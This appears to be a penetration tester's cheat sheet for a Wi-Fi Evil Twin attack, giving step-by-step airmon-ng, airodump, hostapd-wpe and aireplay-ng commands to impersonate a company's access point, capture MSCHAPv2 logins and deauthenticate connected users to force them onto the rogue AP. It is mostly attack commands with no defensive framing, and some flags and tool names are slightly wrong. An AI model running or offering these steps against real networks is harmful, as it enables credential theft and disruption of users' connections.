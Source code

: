 Rogue AP Attack
===============

> General Informations


> If you need several external eth interfaces, connect then at the beginning
> To ensure having wlan0 and wlan1
> And avoid having wlan0mon and then wlan0 when you connect the second one
> It could result in conflicts


> Evil Twin / Hostapd-wpe is used against MSCHAPv2 access points, usually used by companies
> Manually creating a rogue AP for classical WPA/WPA2 requires more configuration


> You might need to patch your hostapd version
https://github.com/aircrack-ng/aircrack-ng/tree/master/patches/wpe/hostapd-wpe

> Evil Twin attack


> 1/ Start monitoring mode
> If you plan to use deauth attack, connect the 2 eth interfaces at the same time
> To avoid having wlan0mon and wlan0 (it can conflict)
sudo airmon-ng start wlan0

> 2/ If process are blocking the monitoring mode, kill them
sudo airmon-ng check kill
sudo kill <PID>

> 3/ Get the target AP (ESSID)
> Your target can have multiples AP, and so multiples MAC addresses
> They can run on differents channels
sudo airodump wlan0mon

> 4/ Then set the target in the configuration file
sudo nano /etc/hostapd-wpe/hostapd-wpe.conf
ssid=<ESSID>

5. Start AP

You will only get people that newly connects to the target AP
If you want to get people already connected, you need to push the attack further with deauth

    sudo hostapd-wpe /etc/hostapd-wpe/hostapd-wpe.conf

6. Start the second ethernet interface

        sudo airmon-ng start wlan1

7. Deauth (In another terminal)

    Based on the differents ESSID and channels found in step 3
    -0 is the number of deauth packet sent

        sudo aireplay-ng -0 10 -a <mac address> -c <channel>
